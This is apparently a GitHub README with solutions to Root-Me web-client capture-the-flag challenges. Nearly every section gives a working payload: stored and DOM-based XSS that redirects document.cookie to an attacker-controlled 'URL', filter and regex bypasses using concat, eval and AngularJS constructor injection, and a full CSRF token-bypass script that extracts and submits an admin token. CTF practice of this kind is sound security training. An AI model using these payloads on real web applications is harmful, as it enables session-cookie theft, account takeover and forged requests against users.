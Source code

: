 # Rootme-App-Client
App Client Challenges Summary

### XSS- Stored 1
Post a message with content is the following:
`<script>window.location.href="URL?c="+document.cookie</script>
`
### XSS - Stored 2
Post a random message, then Ctrl + U to view source code. 

There are 2 style definitions : `invite` & `admin`.

Besides, when open cookies manage, we see a value of `status` is `invite`. 

Change this value into `admin` and try posting a message, this change will affect to tag `i` after message title.

So we're going to exploit this.

Change `status` cookie into `"><script>window.location.href="URL?c="+document.cookie</script>` and post a message

### XSS DOM Based - Introduction

Submit a random number, we will see url has a param `number`. 

Ctrl + U to view source code. `number` variable get value from URL param.

Exploit this.

Submit number `'; window.location.href="URL?c="+document.cookie//`. 

This will break `''` of `number` variable, add `fetch` into script.

Submit URL in `Contact` page with param `RootmeURL?number='; window.location.href="URL?c="+document.cookie//`

### XSS DOM Based - Eval
This web use regex  /^\d+[\+|\-|\*|\/]\d+/ to check input. We can bypass by using the following input:

``1*24+";window.location.href=`URL?c=`+document.cookie;//"``

### XSS DOM Based - Filters Bypass
This web filters `;` or `+`. So we use `concat` instead.

It also filters `https` to check redirect. 

``'.concat(eval('document.location=`//URL?c=${document.cookie}`'))//``

### XSS DOM Based - AngularJS
Create base64 of redirect command:

`btoa("window.location.href='URL?c='+document.cookie")`

Submit the following URL in `contact` page

``RootMeURL/?name={{constructor.constructor("eval(atob(`<base64>`))")()}} ``

### CSRF Token Bypass
Sample payload for bypassing CSRF Token:

```
<form action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" name="csrf_form" enctype="multipart/form-data">
                <input id="username" type="text" name="username" value="1337">
                <input id="status" type="checkbox" name="status" checked >
                <input id="token" type="hidden" name="token" value="" />
                <button type="submit">Submit</button>
</form>
<script>

                xhttp = new XMLHttpRequest();
                xhttp.open("GET", "http://challenge01.root-me.org/web-client/ch23/?action=profile", false);
                xhttp.send();

                // extraction du token
                token_admin = (xhttp.responseText.match(/[abcdef0123456789]{32}/));

                // insertion du token dans notre formulaire
                 document.getElementById('token').setAttribute('value', token_admin)

                // envoi du formulaire
                document.csrf_form.submit();
</script>
```
